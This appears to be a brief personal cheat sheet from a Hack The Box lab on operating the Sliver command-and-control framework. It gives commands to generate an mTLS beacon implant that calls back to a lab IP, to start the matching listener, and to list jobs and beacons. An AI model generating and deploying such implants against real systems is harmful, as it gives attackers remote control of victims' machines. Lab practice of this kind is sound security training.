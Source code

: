 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
ID | Name | Protocol | Port | Stage Profile 
---------------------------------------------
 1 |  mtls |    tcp   |  80 |                 
sliver > `use beacons`    

